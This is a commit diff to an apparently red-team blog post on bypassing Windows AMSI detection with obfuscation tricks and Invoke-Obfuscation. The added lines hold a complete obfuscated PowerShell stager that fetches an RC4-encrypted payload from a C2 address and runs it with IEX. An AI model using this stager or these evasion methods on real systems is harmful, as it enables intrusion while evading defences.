

Before and after one commit to whmacmac/test, a Jekyll site: the page built from _posts/2020-04-11-RedTeam-Exercises-with-OpenSource-Tools-Part-1.md, in a window 1280 px wide and 1400 px high, scrolled down 6161 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 6962 px from its top, so only the background shows below that.

Commit message:
Update 2020-04-11-RedTeam-Exercises-with-OpenSource-Tools-Part-1.md

```diff
--- a/_posts/2020-04-11-RedTeam-Exercises-with-OpenSource-Tools-Part-1.md
+++ b/_posts/2020-04-11-RedTeam-Exercises-with-OpenSource-Tools-Part-1.md
@@ -132,34 +132,45 @@ Powershell is ignoring capitalization. Every antivirus/antimalware solution is h
 </div>
 Even if AMSI is ignoring capitalization, changing the payload's hash is a good practice.
 
-
-<b>2.Concatenation</b><br/>
+<br/><b>2.Concatenation</b><br/>
 AMSI is still heavily dependent upon signatures, however simple concatenation can prevent most alerts. Microsoft has implemented a custom EICAR string 'amsicontext' for testing the AMSI's detection capabilities.
 <div>
 <center><img src="/images/2020-04-11-RedTeam-Exercises-with-OpenSource-Tools/concat.png">
  </center>
 </div>
 
-
-<b>3.Variable Insertion</b><br/>
+<br/><b>3.Variable Insertion</b><br/>
 Powershell recognizes $ as a special character in a string and will fetch the associated variable.
 <div>
 <img src="/images/2020-04-11-RedTeam-Exercises-with-OpenSource-Tools/insertion.png">
 </div>
 
-<b>4.Format String</b><br/>
+<br/><b>4.Format String</b><br/>
 Powershell allows for the use of {} inside a string to allow for variable insertion. This is an reference to the format string function.
 <div>
 <center><img src="/images/2020-04-11-RedTeam-Exercises-with-OpenSource-Tools/formatstring.png">
  </center>
 </div>
 
-
-<br/> The list of obfuscation methods can continue from compressing the code to encrypting it, etc.<br/>
-Also a good tip, is to break large section of code into smaller pieces and test them in part in order to determine what is being flagged in your stager.
+As you can see, AMSI is still not perfect in detecting all of above examples, maybe in time it will can. The list of obfuscation methods can continue from compressing the code to encrypting it, etc.<br/>
+Also a good tip, is to break large section of code into smaller pieces and test them in part in order to determine what is being flagged in your stager when you develop the obfuscation.
 <br/> However I promised that we will make use of multiple open source tools for achieving our goal and not losing to much time on development.
 
 A script will come in play in our aid when it comes obfuscation, so lets Invoke-Obfuscation!
 
 ## Invoke-Obfuscation {#invokeobfuscation}
 If you have not already viewed Daniel Bohannon's presentations about <a href="https://github.com/danielbohannon/Invoke-Obfuscation" target="_blank" rel="noopener noreferrer">Invoke-Obfuscation </a>, I invite you to take a look at the following <a href="https://www.youtube.com/watch?v=uE8IAxM_BhE" target="_blank" rel="noopener noreferrer">presentation1 </a> or <a href="https://www.youtube.com/watch?v=k5ToL0J7uL0" target="_blank" rel="noopener noreferrer">presentation2 </a>.
+
+<div>
+<center><img src="/images/2020-04-11-RedTeam-Exercises-with-OpenSource-Tools/invo1.png">
+ </center>
+</div>
+
+"ScriptPath" is setting the path for reading the content from a file, in my case will be "/tmp/test.ps1", where test.ps1 is containing the following code:
+
+{% highlight powershell %}
+$ErrorActionPreference = "SilentlyContinue";$ebDd=NEW-ObjecT SySteM.NET.WeBCLiEnt;$u='Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko';$ser=$([TEXt.ENCODInG]::UNICoDe.GeTStRiNG([ConVert]::FrOmBaSe64STRIng('aAB0AHQAcAA6AC8ALwAxADkAMgAuADEANgA4AC4AMQA2ADAALgAxADMANAA6ADgAMAA=')));$t='/news.php';$EbdD.HeADErS.ADD('User-Agent',$u);$EBdD.ProXy=[SySTem.Net.WebREqUEst]::DeFaulTWEbPrOXy;$EBdD.PrOXY.CredEnTIALs = [SYsTem.NET.CredenTIAlCACHe]::DeFauLtNetWoRKCreDenTIAls;$Script:Proxy = $ebdd.Proxy;$K=[SySTeM.Text.ENcOdiNG]::ASCII.GEtBytEs('*VWR/g_v[59+~38qlKjd6(hcws|#ON0B');$R={$D,$K=$ARgS;$S=0..255;0..255|%{$J=($J+$S[$_]+$K[$_%$K.COUNt])%256;$S[$_],$S[$J]=$S[$J],$S[$_]};$D|%{$I=($I+1)%256;$H=($H+$S[$I])%256;$S[$I],$S[$H]=$S[$H],$S[$I];$_-bxOR$S[($S[$I]+$S[$H])%256]}};$eBdd.HEadErS.ADD("Cookie","bBxqmHhF=Xw9FMjBYWNyNHKSPRXrSEYxLcPA=");$DAtA=$ebDD.DOWnlOAdDaTA($ser+$T);$IV=$daTA[0..3];$DAtA=$DATA[4..$DAtA.LENGth];-joiN[CHAr[]](& $R $dATA ($IV+$K))|IEX
+
+{% endhighlight %}
+
+Without entering in to many details about it, lets see a little about its obfuscation techniques:
```
